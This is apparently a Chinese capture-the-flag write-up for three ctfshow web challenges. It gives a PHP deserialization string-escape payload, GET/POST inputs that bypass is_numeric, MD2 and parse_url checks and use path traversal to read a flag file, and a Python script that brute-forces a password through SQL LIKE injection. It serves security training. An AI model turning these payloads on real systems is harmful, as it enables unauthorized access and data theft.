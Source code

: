 # 原创
：  ctfshow-月饼杯

# ctfshow-月饼杯

#### web1_此夜圆

## web1_此夜圆

### 考点

> 
php反序列化字符逃逸


### 思路

> 
观察 index.php 代码，很容易发现是php反序列化字符逃逸中字符增多的考点，我们要将password的值变为`yu22x`，从而达到包含 flag.php 的目的，我们需要逃逸的部分为 `";s:8:"password";s:5:"yu22x";}`，长度为30，所以我们需要15个 `Firebasky`来达到逃逸这部分字符串的目的


### Payload

> 
index.php代码


```
&lt;?php
error_reporting(0);

class a
{
	public $uname;
	public $password;
	public function __construct($uname,$password)
	{
		$this-&gt;uname=$uname;
		$this-&gt;password=$password;
	}
	public function __wakeup()
	{
			if($this-&gt;password==='yu22x')
			{
				include('flag.php');
				echo $flag;	
			}
			else
			{
				echo 'wrong password';
			}
		}
	}

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}

$uname=$_GET[1];
$password=1;
$ser=filter(serialize(new a($uname,$password)));
$test=unserialize($ser);
?&gt;

```

> 
Payload：<br/> `1=FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}`


## web2_故人心

### 考点

> 
is_numeric绕过、MD2绕过、parse_url绕过


### 思路

> 



### Payload

> 
源码


```
&lt;?php
error_reporting(0);
highlight_file(__FILE__);
$a=$_GET['a'];
$b=$_GET['b'];
$c=$_GET['c'];
$url[1]=$_POST['url'];
if(is_numeric($a) and strlen($a)&lt;7 and $a!=0 and $a**2==0){
    $d = ($b==hash("md2", $b)) &amp;&amp; ($c==hash("md2",hash("md2", $c)));
    if($d){
             highlight_file('hint.php');
             if(filter_var($url[1],FILTER_VALIDATE_URL)){
                $host=parse_url($url[1]);
                print_r($host); 
                if(preg_match('/ctfshow\.com$/',$host['host'])){
                    print_r(file_get_contents($url[1]));
                }else{
                    echo '差点点就成功了！';
                }
            }else{
                echo 'please give me url!!!';
            }     
    }else{
        echo '想一想md5碰撞原理吧?!';
    }
}else{
    echo '第一个都过不了还想要flag呀?!';
}

```

> 
Payload：


```
GET：?a=1e-162&amp;b=0e652024452&amp;c=0e603448399
POST：url=a://ctfshow.com/../../../../../../../fl0g.txt

```

## web3_莫负婵娟

### 考点

> 
like注入、Linux环境变量构造执行命令、通配符利用


### 思路

> 



### Payload

> 
like注入脚本


```
import requests
import string

strs = string.digits+string.ascii_letters
url = 'http://d274b648-0dad-4058-9b20-9a7a35424df5.chall.ctf.show/login.php'

pwd = ''
for i in range(32):
	print('i = '+str(i+1),end='\t')
	for j in strs:
		password = pwd + j + (31-i)*'_'
		data = {'username':'yu22x','password':password}
		r = requests.post(url,data=data)
		if 'wrong' not in r.text:
			pwd += j
			print(pwd)
			break


```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210615012229469.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2021061501275390.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210615012940782.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
